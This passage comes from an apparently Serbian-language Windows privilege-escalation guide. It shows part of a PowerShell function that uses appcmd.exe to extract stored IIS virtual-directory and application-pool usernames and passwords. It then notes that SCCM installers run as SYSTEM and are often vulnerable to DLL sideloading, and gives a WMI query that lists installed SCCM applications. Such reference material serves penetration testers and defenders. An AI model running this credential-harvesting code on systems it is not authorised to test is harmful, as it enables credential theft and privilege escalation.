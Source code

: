 ```bash
$VdirUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:userName"
$VdirUser = Invoke-Expression $VdirUserCmd

# Get password
$VdirPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:password"
$VdirPassword = Invoke-Expression $VdirPasswordCmd

# Check if credentials exists
if (($VdirPassword -ne "") -and ($VdirPassword -isnot [system.array])) {
# Add credentials to database
$Null = $DataTable.Rows.Add($VdirUser, $VdirPassword,'Virtual Directory',$VdirName,'NA')
}
}

# Check if any passwords were found
if( $DataTable.rows.Count -gt 0 ) {
# Display results in list view that can feed into the pipeline
$DataTable |  Sort-Object type,user,pass,vdir,apppool | Select-Object user,pass,type,vdir,apppool -Unique
}
else {
# Status user
Write-Verbose 'No application pool or virtual directory passwords were found.'
$False
}
}
else {
Write-Verbose 'Appcmd.exe does not exist in the default location.'
$False
}
$ErrorActionPreference = $OrigError
}
```

### SCClient / SCCM

Proverite da li postoji `C:\Windows\CCM\SCClient.exe`.\
Instalateri se **pokreću sa PRIVILEGIJAMA SISTEMA**, mnogi su ranjivi na **DLL Sideloading (Informacije sa** [**https://github.com/enjoiz/Privesc**](https://github.com/enjoiz/Privesc)**).**

```bash
$result = Get-WmiObject -Namespace "root\ccm\clientSDK" -Class CCM_Application -Property * | select Name,SoftwareVersion
if ($result) { $result }
else { Write "Not Installed." }
```

## Fajlovi i Registar (Poverljivi podaci)
